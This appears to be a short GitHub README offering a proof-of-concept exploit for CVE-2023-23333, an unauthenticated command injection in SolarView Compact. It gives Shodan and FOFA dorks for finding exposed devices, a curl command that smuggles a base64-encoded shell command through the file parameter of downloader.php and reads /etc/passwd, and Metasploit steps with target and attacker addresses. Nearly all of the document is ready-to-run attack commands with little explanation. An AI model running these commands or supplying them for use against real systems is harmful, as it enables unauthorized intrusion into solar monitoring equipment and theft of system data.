 # CVE-2023-23333

![](https://img.shields.io/static/v1?label=Product&message=SolarView%20Compact&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C%3Dver%206.00&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Command%20Injection&color=red)


- Shodan dork:
```
http.html:"SolarView Compact"
```
- FOFA dork:
```
body="SolarView Compact"
```
### Curl PoC
```
echo -n 'cat /etc/passwd' | base64

Y2F0IC9ldGMvcGFzc3dkCg
```
```
curl http://target.com/downloader.php?file=;echo%20Y2F0IC9ldGMvcGFzc3dkCg==|base64%20-d|bash%00.zip | grep root:.*:0:0
```

### Metasploit-Framework

```
cp solarview_compact.rb /usr/share/matasploit-framework/modules/exploits/linux/http/solarview_unauth_rce_cve_2023_23333.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploit/linux/http/solarview_unauth_rce_cve_2023_23333.rb
```
```
set rhost target_ip
```
```
set lhost attacker_ip
```
```
run
```